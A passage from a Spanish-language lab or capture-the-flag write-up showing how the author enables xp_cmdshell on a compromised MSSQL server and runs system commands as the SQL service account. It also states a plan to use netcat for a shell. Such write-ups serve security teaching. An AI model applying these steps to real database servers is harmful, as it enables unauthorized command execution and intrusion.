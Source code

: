 Guárdala, ya que la usaremos más adelante.

Obtengamos una shell interactiva. Para hacer esto, podríamos cargar un binario de **netcat** al directorio **/Temp** de la máquina víctima y después indicarle que ejecute una cmd en una **netcat** que levantemos.

Para realizar esto, vamos a usar la herramienta **xp_cmdshell** que tiene el **servicio MSSQL**.

| **xp_cmdshell** |
|:-----------:|
| *xp_cmdshell es una función extendida de SQL Server que permite ejecutar comandos del sistema operativo directamente desde una consulta SQL. Está diseñado para realizar tareas administrativas ejecutando scripts, programas, o cualquier otro comando de línea de comandos desde el servidor de SQL Server.* |

<br>

<h3 id="xpcmd">Activando xp_cmdshell en Servicio MSSQL</h3>

Revisemos si está activa:
```sql
SQL (SCRM\administrator  dbo@ScrambleHR)> xp_cmdshell "whoami"
ERROR(DC1): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

No lo está, tenemos 2 formas de activarla:

* Activandola con el comando `enable xp_cmdshell`:
```sql
SQL (SCRM\administrator  dbo@master)> enable_xp_cmdshell
INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "whoami"
output        
-----------   
scrm\sqlsvc   
NULL
```

* Activando de forma manual de la siguiente manera:
```sql
SQL (SCRM\administrator  dbo@master)> SP_CONFIGURE "show advanced options", 1;
INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SCRM\administrator  dbo@master)> RECONFIGURE;
SQL (SCRM\administrator  dbo@master)> SP_CONFIGURE "xp_cmdshell", 1;
INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SCRM\administrator  dbo@master)> RECONFIGURE;
```

* Y ya podemos ejecutar comandos como si fuera una **cmd**:
```sql
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "whoami"
output        
-----------   
scrm\sqlsvc   
NULL
```
